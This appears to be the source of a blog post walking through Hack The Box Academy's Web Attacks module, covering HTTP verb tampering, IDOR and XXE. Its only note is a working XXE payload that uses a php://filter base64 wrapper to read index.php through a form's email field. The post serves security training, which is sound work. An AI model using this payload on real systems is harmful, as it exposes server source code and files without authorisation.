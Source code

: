 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Web Attacks"
description: "Explore this detailed walkthrough of Hack The Box Academy's Web Attacks module. Learn effective techniques to perform http verb tampering,Insecure Direct Object References (IDOR), XML External Entity (XXE) Injection and  elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-11-06 21:41
image:  /images/htb/web-attacks/logo.png
tags:   [httb-verb-tampering,idor,xxe,cbbh]
categories: [htbacademy]
---
```


### Explore this detailed walkthrough of Hack The Box Academy's Web Attacks module. Learn effective techniques to perform http verb tampering,Insecure Direct Object References (IDOR), XML External Entity (XXE) Injection

>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/134/section/1158">Web Attacks</a><br/>
<a href="https://jacozwarts.github.io/images/htb/web-attacks/Web_Attacks_Module_Cheat_Sheet.pdf">Web Attacks - Cheat Sheet</a><br/>

# Notes:

#### Read PHP source code with `base64` encode filter
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root><name>Test</name>
<tel>01234566789</tel>
<email>&company;</email>
<message>Testing form</message>
</root>
```


<hr/>